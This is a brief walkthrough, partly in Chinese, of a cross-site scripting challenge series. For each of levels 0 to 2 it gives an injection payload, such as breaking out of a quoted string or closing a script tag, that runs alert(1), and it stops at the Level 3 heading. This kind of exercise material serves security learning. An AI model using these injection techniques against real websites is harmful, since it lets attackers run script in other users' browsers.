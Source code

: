 # Level 0-Warmup
");alert(1)//

# Level 1-Adobe
這關將 " replace為 \"，因此要試著繞過。

%22)alert(1)//

# Level 2-Json
這題使用了Json.stringify，可看一下運作的方式。

可以直接關閉script來開啟另一個alert

</script><script>alert(1)//

# Level 3-JavaScript
